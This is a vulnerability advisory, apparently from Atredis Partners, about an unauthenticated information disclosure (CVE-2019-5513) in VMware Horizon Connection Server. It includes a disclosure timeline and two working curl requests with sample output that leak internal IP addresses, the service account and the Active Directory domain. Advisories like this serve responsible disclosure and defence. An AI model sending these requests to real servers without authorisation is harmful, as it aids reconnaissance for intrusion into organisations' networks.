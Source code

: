 # ATREDIS-2018-0005: VMWare Horizon Connection Server Information Disclosure

## Vulnerability Type
Information Disclosure

## Vendors
* VMWare

## Affected Products
* VMWare Horizon 7

## Summary
The VMWare Horizon Connection Server application exposes sensitive information to an unauthenticated attacker. The Connection Server is often allowed through an organization's firewall in order to support external access to the virtual desktop environment. The information disclosure issues allow an unauthenticated attacker to obtain the IP address, Windows domain name, and service account for the VMWare Horizon Connection Server.

## Mitigation
No mitigations are available.

## Credit
This vulnerability was found by HD Moore of Atredis Partners

## References
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-5513
* https://www.vmware.com/security/advisories/VMSA-2019-0003.html
* https://cwe.mitre.org/data/definitions/200.html

## Report Timeline
* 2018-12-12: Atredis Partners sent vulnerability details to VMWare
* 2018-12-12: VMWare acknowledges the report
* 2019-01-29: Atredis Partners sent vulnerability details to CERT/CC
* 2019-03-14: VMWare publishes VMSA-2019-0003
* 2019-03-15: Atredis Partners publishes this advisory

## Technical Details
The VMWare Horizon Connection Server exposes sensitive information via the portal and broker endpoints of the web server.

The portal application leaks the internal IP address of the Connection Server along with any additional X-Forwarded-For headers via the URL /portal/info.jsp:

```
$ curl https://host/portal/info.jsp

{"acceptLanguage":"en-US","clientVersion":"4.9.0","logLevel":"2","clientIPAddress":"192.168.0.12, 192.168.30.45","contextPath":"/portal","feature":{},"os":"unknown","installerLink":"https://www.vmware.com/go/viewclients"}

```

The broker endpoint exposes the service account username and Active Directory domain name in the get-configuration response:

```
$ curl -k -s -XPOST -H 'Content-Type: text/xml' https://host/broker/xml --data-binary $'<?xml version=\'1.0\' encoding=\'UTF-8\'?><broker version=\'10.0\'><get-configuration></get-configuration></broker>'

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<broker version="14.0">
<configuration>
<result>ok</result>
<client-configuration>
	<params>
		<param>
			<name>alwaysSendRdsLicense</name>
			<values>
				<value>true</value>
			</values>
		</param>
	</params>
</client-configuration>
<authentication>
<screen>
<name>cert-auth</name>
<params>
<param>
<name>user</name>
<values>
<value/>
</values>
</param>
</params>
</screen>
</authentication>
<broker-guid>cc20d98a-8fd2-45ae-b805-9952db6ef6d2</broker-guid>
<broker-service-principal>
<type>kerberos</type>
<name>HORIZONSERVER$@CORPORATEDOMAIN.EXAMPLE.COM</name>
</broker-service-principal>
</configuration>
</broker>
```
